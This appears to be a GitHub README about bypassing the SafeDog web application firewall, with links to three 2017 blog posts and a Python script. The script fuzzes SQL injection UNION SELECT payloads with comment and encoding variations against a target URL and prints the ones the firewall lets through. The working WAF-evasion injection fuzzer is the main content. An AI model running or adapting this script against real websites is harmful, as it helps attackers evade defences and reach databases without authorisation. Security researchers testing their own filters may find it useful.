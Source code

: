 # Bypass_Thinking(Bypass思路)
+ Record bypass and ideas/记录与绕过实例
  
# description(说明):

</br> This is about safe dog bypass:wink::cry::laughing: :yum:

    2017/9/03 => [Bypass SafeDog sql Attack(1)](http://www.inksec.cn/)

</br>

    2017/9/05 => [Bypass SafeDog sql Attack(2)](http://www.inksec.cn/)
  
</br>
  
    2017/9/06 => [Bypass SafeDog sql Attack(3)](http://www.inksec.cn/)  

## Fuzz_waf Thinking
```
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|', '%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","% 0j"]
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.3 6 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.107/sql.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                exp = "e1/*!50000/*!union"+a+b+c+d+"*/(select%201,2,3)/*--*/*/--%20-"
                url = url_start + exp
                res = requests.get(url = url , headers = headers)
                #print(res.text.find("true"))
                if res.text.find("true")==-1:
                    print("Find Fuzz bypass:"+url)
                    pass

```
